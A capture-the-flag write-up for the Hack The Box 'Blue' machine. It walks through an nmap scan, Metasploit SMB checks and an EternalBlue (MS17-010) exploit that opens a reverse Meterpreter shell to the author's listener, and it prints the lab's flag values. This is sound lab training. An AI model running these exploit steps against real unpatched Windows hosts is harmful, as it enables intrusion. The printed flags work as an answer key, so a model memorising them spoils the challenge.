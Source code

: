 # Hack The Box | [Blue](https://app.hackthebox.eu/machines/51)
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin by running an nmap scan on the target.  
**Target:** 10.129.79.43  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Blue]
└─$ nmap -T4 -F 10.129.79.43
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 08:01 EST
Nmap scan report for 10.129.79.43
Host is up (0.025s latency).
Not shown: 91 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
~~~
### Open Ports/Services
445/tcp - SMB  
### SMB
I can use the auxililary/scanner/smb/smb_version in msfconsole to scan the target for the SMB version.
~~~Bash
msf6 > use auxiliary/scanner/smb/smb_version 
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.129.79.43
RHOSTS => 10.129.79.43
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.129.79.43:445      - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:7m 14s) (guid:{066371f8-2a43-4be7-8ab5-4e0a8e02a457}) (authentication domain:HARIS-PC)
[+] 10.129.79.43:445      -   Host is running Windows 7 Professional SP1 (build:7601) (name:HARIS-PC)
[*] 10.129.79.43:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~
Afterwards, I can use auxiliary/scanner/smb/smb_ms17_010 to see if my target is vulnerable to MS17-010, very likely it is.  
~~~Bash
msf6 auxiliary(scanner/smb/smb_version) > use auxiliary/scanner/smb/smb_ms17_010 
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.79.43
RHOSTS => 10.129.79.43
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.79.43:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.79.43:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~
Good output, from here exploitation should be straightforward.  
## Exploitation
### EternalBlue
I can use msfconsole to execute ms17_010_eternalblue right away.  
~~~Bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.79.43
RHOSTS => 10.129.79.43
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.43:4444 
[*] 10.129.79.43:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.79.43:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.79.43:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.129.79.43:445 - Connecting to target for exploitation.
[+] 10.129.79.43:445 - Connection established for exploitation.
[+] 10.129.79.43:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.79.43:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.79.43:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.79.43:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.79.43:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.79.43:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.79.43:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.79.43:445 - Sending all but last fragment of exploit packet
[*] 10.129.79.43:445 - Starting non-paged pool grooming
[+] 10.129.79.43:445 - Sending SMBv2 buffers
[+] 10.129.79.43:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.79.43:445 - Sending final SMBv2 buffers.
[*] 10.129.79.43:445 - Sending last fragment of exploit packet!
[*] 10.129.79.43:445 - Receiving response from exploit packet
[+] 10.129.79.43:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.79.43:445 - Sending egg to corrupted connection.
[*] 10.129.79.43:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.129.79.43
[*] Meterpreter session 1 opened (10.10.14.43:4444 -> 10.129.79.43:49158) at 2021-01-09 08:10:50 -0500
[+] 10.129.79.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.79.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.79.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
~~~
Success. From here I can use the meterpreter shell to catpure the user.txt and root.txt flags.  
##### user.txt
Located in C:\Users\haris\Desktop  
**4c546aea7dbee75cbd71de245c8deea9**
##### root.txt
Located in C:\Users\Administrator\Desktop
**ff548eb71e920ff6c08843ce9df4e717**
